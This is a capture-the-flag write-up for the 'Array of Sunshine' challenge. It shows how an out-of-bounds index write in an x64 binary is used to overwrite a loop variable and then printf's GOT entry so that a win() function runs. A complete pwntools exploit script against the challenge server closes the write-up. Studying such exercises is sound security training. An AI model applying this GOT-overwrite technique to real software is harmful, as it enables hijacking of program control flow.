









# Array of Sunshine

The challenge is to exploit an index of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:



The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:



The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:



If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 



We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:



As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:



And we found some got.plt locations:



We can overwrite the printf@got.plt(index offset -12) with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":



The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
put this into code:

```python
from pwn import p64
from pwn import *


def print_n_send(p, payload):
    print(payload)
    p.sendline(payload)


# p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)

target_address = 0x405020
fruits_base = 0x405080
win_function_addr = 0x0040128F

local_34_value = (target_address - fruits_base) // 8

p.recvuntil(b"\n\n")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))

print_n_send(p, str.encode("10"))
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, b"\x06\x00\x00\x00\x00\x00\x00\x00")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))
print_n_send(p, str(local_34_value).encode())
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, p64(win_function_addr))
print(p.recv())
```



